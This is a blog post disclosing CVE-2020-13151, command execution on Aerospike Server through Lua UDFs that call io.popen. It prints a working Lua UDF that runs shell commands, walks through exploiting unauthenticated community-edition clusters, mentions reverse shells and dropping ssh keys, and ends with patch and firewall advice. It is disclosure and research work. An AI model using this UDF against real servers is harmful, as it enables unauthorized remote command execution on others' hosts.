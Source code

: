 ```yaml
---
layout: post
title:  "CVE-2020-13151 POC: Aerospike Server Host Command Execution"
toc: true
date:   2020-08-01
categories: network-pentest
---
```


# An Aside

The Aerospike team was really great to work with on this CVE. They were very repsonsive and quickly developed a patch and worked it into production. 

# Motivation 

I recently disclosed CVE-2020-13151 to Aerospike after finding that I could execute commands against the underlying aerospike database hosts during an engagement. If you find an unpatched version of Aeropike server during testing, there may be a quick shell available. Depending on what else the hosts are used for this can be a good pivot point in the network.


# Prerequisites

- An unpatched (or non-hardened) version of the Aerospike server. 
- Patches came in two stages:
	- Versions 5.0.0.7, 4.9.0.10, 4.8.0.13, 4.7.0.17, 4.6.0.19 and 4.5.3.21 received the ability to disable lua UDFs
	- Versions 5.1.0.3 and beyond blocked the process creation in the UDFs

Authentication is not offered on the community edition making the attack very simple on unpatched versions. I was unable to test this attack on the enterprise edition, so if you find one on an engagement, you'll need to experiment a bit (and probably obtain some credentials).

# Exploiting

**tl;dr**
scripted exploit tool is here: [https://github.com/b4ny4n/CVE-2020-13151](https://github.com/b4ny4n/CVE-2020-13151)

Again, this was only tested on the server community edition as I didn't have access to the enterprise version. A nicety from an attacker point-of-view is that the community edition does not allow for authentication, making this attack very easy.

To show how it works, I'll walk through a manual way to run the attack, though I've created a some tooling around it here [here](https://github.com/b4ny4n/CVE-2020-13151).

This attack is possible due to inusfficient blacklisting of functions in lua UDFs. Aerospike seems to have (sensibly) blocked `os.execute` calls during UDF execution, however the same precautions do not appear to be in place for `io.popen`.

Consider the following UDF, which when registered will allow us to execute and display the results of a command whichever host in the cluster ends up executing the function.  

```lua
function runCMD(rec, cmd)
    local outtext = ""
    local phandle = io.popen(cmd)
    io.input(phandle)
    local foo = io.lines()
    for f in foo do
        outtext = outtext .. f .. "\n"
    end
    return outtext
end
```

Once connected to the cluster (again, no auth in the community edition), we can register our udf:
![](/screens/aero-register-udf.png)

Create a single-record test dataset to operate on:
![](/screens/aero-create-table.png)

And then execute commands on whichever host ended up hosting our record:
![](/screens/aero-execute-cmd.png)

In a large enough cluster an attacker could create a much larger dataset and repeatedly execute the commands against different records which would have the effect of spraying the command around the cluster (which would be fun for dropping ssh keys, for example).


# Try it out 

I've written a tool which injects records into the target cluster and then executes the desired commands.

It can be used to obtain a reverse shell:

![](/screens/aero-revshell.png)

Or just to issue arbitrary commands:

![](/screens/aero-cmdexec.png)

You can grab the tool [here](https://github.com/b4ny4n/CVE-2020-13151) and experiment with it against a local docker setup:

```bash

# start up a single-node aerospike instance
docker run --rm -d --name aerospike -p 3000:3000 -p 3001:3001 -p 3002:3002 -p 3003:3003 aerospike:4.9.0.5

# if you want to issue commands against the server interactively, 
# fire up a client to interact with the server (also dockerized)
# changing the --host IP as necessary
docker run -v `pwd`:/share -ti --name aerospike-aql --rm aerospike/aerospike-tools aql --host 172.17.0.2 --no-config-file
```


# If You're Defending

Patch and firewall off backend servers if you're on the community edition (ideally, they should only respond to the web apps fronting them). If you're on the enterprise version, ensure you have strong authentication and minimize permission and access.
